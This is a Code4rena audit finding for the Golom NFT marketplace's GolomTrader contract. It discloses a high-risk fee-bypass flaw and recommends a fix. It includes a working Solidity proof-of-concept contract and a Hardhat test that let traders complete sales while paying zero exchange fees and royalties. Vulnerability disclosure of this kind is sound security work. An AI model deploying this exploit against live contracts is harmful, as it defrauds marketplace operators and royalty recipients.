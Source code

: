 ## Tags

- bug
- 3 (High Risk)
- resolved
- sponsor confirmed
- selected-for-report

# [ Users can avoid paying fees while trading trustlessly & using golom's network effects](https://github.com/code-423n4/2022-07-golom-findings/issues/33) 

# Lines of code

https://github.com/code-423n4/2022-07-golom/blob/main/contracts/core/GolomTrader.sol#L203-L271


# Vulnerability details

## Impact
- Users can avoid paying fees while trading trustlessly & using golom's network effects
## Description
- If a maker makes below mentioned `AvoidsFeesContract` a [reservedAddress](https://github.com/code-423n4/2022-07-golom/blob/main/contracts/core/GolomTrader.sol#L220) and hides the info about how much they want their NFT in [order.root](https://github.com/code-423n4/2022-07-golom/blob/main/contracts/core/GolomTrader.sol#L58), they can avoid paying fees while trading trustlessly and using the nework effects of golom maketplace with 0 [o.totalAmt](https://github.com/code-423n4/2022-07-golom/blob/main/contracts/core/GolomTrader.sol#L52). see POC to get a better idea.
- Here the maker uses order.root to hide the amount they want to get paid because it is much cleaner for a POC.
    - but since golom does not have an API where user can submit a signature without using the frontend, they will use something like deadline to hide the amount they want to get paid.
     - Reason they would use deadline is because that is something they can control in the golom NFT frontend
     - They can pack the information about deadline and amount they want to get paid, in one uint256 as a deadline and then the check in the contract would look a different
## Proof of Concept
- clone the [repo](https://github.com/code-423n4/2022-07-golom) and run `yarn`
- create a `AvoidsFeesContract.sol` contract in `contracts/test/` folder with following code
```
//contract that avoids paying fees everytime

pragma solidity 0.8.11;

import "../core/GolomTrader.sol";

//A maker will be gurranteed a payout if it makes this contract the reservedAddress and hide the payment info about how much they want in Oder.root
//Users will use this every time to trade to avoid paying fees
//They use the networking effects of the golom marketplace without paying the fees
contract AvoidsFeesContract {
    GolomTrader public immutable golomTrader;

    constructor(GolomTrader _golomTrader) {
        golomTrader = _golomTrader;
    }

    function fillAsk(
        GolomTrader.Order calldata o,
        uint256 amount,
        address referrer,
        GolomTrader.Payment calldata p,
        address receiver
    ) public payable {
        require(
            o.reservedAddress == address(this),
            "not allowed if signer has not reserved this contract"
        ); //the signer will only allow this contract to execute the trade and since it has following checks, they will be guranteed a payout they want without paying the fees
        require(
            p.paymentAddress == o.signer,
            "signer needs to be the payment address"
        );
        //I am using root as an example because it is much cleaner for a POC.
        //but since golom does not have an API where user can submit a signature without using the frontend, they will use something like deadline to hide the amount they want to get paid.
        //Reason they would use deadline is because that is something they can control in the golom NFT frontend
        //They can pack the information about deadline and amount they want to get paid, in one uint256 as a deadline and then the check below would look a little different
        require(
            p.paymentAmt == uint256(o.root),
            "you need to pay what signer wants"
        ); //the maker will hide the payment info in oder.root

        golomTrader.fillAsk{value: msg.value}(
            o,
            amount,
            referrer,
            p,
            receiver = msg.sender
        );
    }
}

```
- add following test in `test/GolomTrader.specs.ts` [here](https://github.com/code-423n4/2022-07-golom/blob/main/test/GolomTrader.specs.ts#L390).
- Also, add `const AvoidsFeesContractArtifacts = ethers.getContractFactory('AvoidsFeesContract');` after [this](https://github.com/code-423n4/2022-07-golom/blob/main/test/GolomTrader.specs.ts#L14) line and `import { AvoidsFeesContract as AvoidsFeesContractTypes } from '../typechain/AvoidsFeesContract';` after [this](https://github.com/code-423n4/2022-07-golom/blob/main/test/GolomTrader.specs.ts#L28) line.
- run `npx hardhat compile && npx hardhat test`
```
       it.only('should allow malicious contract to execute the trade while bypassing the fees', async () => {
            //deploy the malicious contract
            const avoidsFeesContract: AvoidsFeesContractTypes = (await (await AvoidsFeesContractArtifacts).deploy(golomTrader.address)) as AvoidsFeesContractTypes;

            //here the frontend calculates exchangeAmount and prePaymentAmt as a percentage of how much the make wants to receive for their NFT. 
            //as far as the frontend is concerned, the maker inputs 0 for their NFT value which in turn makes the exchangeAmount and prePaymentAmt 0 
            let exchangeAmount = ethers.utils.parseEther('0'); // nothing to the exchange
            let prePaymentAmt = ethers.utils.parseEther('0'); // no royalty cut
            let totalAmt = ethers.utils.parseEther('0');
            let tokenId = await testErc721.current();

            let nftValueThatMakerWants = ethers.utils.parseEther('10.25');

            const order = {
                collection: testErc721.address,
                tokenId: tokenId,
                signer: await maker.getAddress(),
                orderType: 0,
                totalAmt: totalAmt,
                exchange: { paymentAmt: exchangeAmount, paymentAddress: await exchange.getAddress() },
                prePayment: { paymentAmt: prePaymentAmt, paymentAddress: await prepay.getAddress() },
                isERC721: true,
                tokenAmt: 1,
                refererrAmt: 0,
                root: ethers.utils.hexZeroPad(nftValueThatMakerWants.toHexString(), 32), //convert Bignumber to bytes32
                reservedAddress: avoidsFeesContract.address,
                nonce: 0,
                deadline: Date.now() + 100000,
                r: '',
                s: '',
                v: 0,
            };

            let signature = (await maker._signTypedData(domain, types, order)).substring(2); //a valid signature as far as your frontend goes

            order.r = '0x' + signature.substring(0, 64);
            order.s = '0x' + signature.substring(64, 128);
            order.v = parseInt(signature.substring(128, 130), 16);

            let makerBalanceBefore = await ethers.provider.getBalance(await maker.getAddress());

            await avoidsFeesContract.connect(taker).fillAsk(
                order,
                1,
                '0x0000000000000000000000000000000000000000',
                {
                    paymentAmt: nftValueThatMakerWants,
                    paymentAddress: order.signer,
                },
                receiver,
                {
                    value: nftValueThatMakerWants,
                }
            );

            let makerBalanceAfter = await ethers.provider.getBalance(await maker.getAddress());

            expect(await testErc721.balanceOf(await taker.getAddress())).to.be.equals('1');
            expect(makerBalanceAfter.sub(makerBalanceBefore)).to.be.equals(nftValueThatMakerWants);//maker is guaranteed a payout

        });

```

## Tools Used
- the [repo](https://github.com/code-423n4/2022-07-golom) itself. (hardhat)

## Recommended Mitigation Steps
- make sure that o.totalAmt is greater than p.paymentAmt in addition to [this](https://github.com/code-423n4/2022-07-golom/blob/main/contracts/core/GolomTrader.sol#L217) check

